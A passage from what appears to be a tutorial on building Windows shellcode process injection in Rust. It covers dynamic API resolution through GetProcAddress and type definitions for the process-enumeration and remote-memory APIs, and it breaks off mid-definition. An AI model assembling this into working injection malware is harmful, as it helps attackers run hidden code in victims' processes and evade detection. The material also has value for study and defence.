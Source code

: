 ```rust
fn resolve_api(
    module_handle: HMODULE,
    api_name: &str,
) -> Result<unsafe extern "system" fn() -> isize, Error> {
    unsafe {
        match GetProcAddress(module_handle, PCSTR::from_raw(api_name.as_ptr())) {
            Some(winapi_addr) => {
                return Ok(winapi_addr);
            }
            None => {
                return Err(Error::new(
                    HRESULT(-1),
                    HSTRING::from("GetProcAddress Error"),
                ));
            }
        }
    }
}
```

In order to use the return value from the **resolve_api** function, we need to define the WinAPI function pointer for all the WinAPIs we are going to use in the shellcode process injection; We can do it in Rust with the **[type](https://doc.rust-lang.org/std/keyword.type.html)** keyword. Each WinAPI is defined as an **unsafe [extern](https://doc.rust-lang.org/beta/reference/items/external-blocks.html) “system”** function.

For the **[OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)**, we can define a type **OpenProcessAPI** that is an **unsafe extern “system”** fuction, based on the Microsoft Documentation, it gets three parameters: a **PROCESS_ACCESS_RIGHTS**, a **bool** and a 32-bit unsigned integer, and return a **HANDLE**. 

```rust
type OpenProcessFunc = unsafe extern "system" fn(PROCESS_ACCESS_RIGHTS, bool, u32) -> HANDLE;
```

We can define the **type** for all the WinAPIs as shown in the code below.

```rust
type CreateToolhelp32SnapshotApi =
    unsafe extern "system" fn(CREATE_TOOLHELP_SNAPSHOT_FLAGS, u32) -> HANDLE;

type Process32FirstApi = unsafe extern "system" fn(HANDLE, *mut PROCESSENTRY32) -> BOOL;

type Process32NextApi = unsafe extern "system" fn(HANDLE, *mut PROCESSENTRY32) -> BOOL;

type OpenProcessApi = unsafe extern "system" fn(PROCESS_ACCESS_RIGHTS, bool, u32) -> HANDLE;

type CloseHandleApi = unsafe extern "system" fn(HANDLE) -> BOOL;

type VirtualAlloExApi = unsafe extern "system" fn(
    HANDLE,
    *const ::core::ffi::c_void,
    usize,
    VIRTUAL_ALLOCATION_TYPE,
    PAGE_PROTECTION_FLAGS,
) -> *mut c_void;

type WriteProcessMemoryApi =
    unsafe extern "system" fn(HANDLE, *const c_void, *const c_void, usize, *mut usize) -> BOOL;

type VirtualProtectExApi = unsafe extern "system" fn(
    HANDLE,
    *const c_void,
    usize,
    PAGE_PROTECTION_FLAGS,
    *mut PAGE_PROTECTION_FLAGS,
```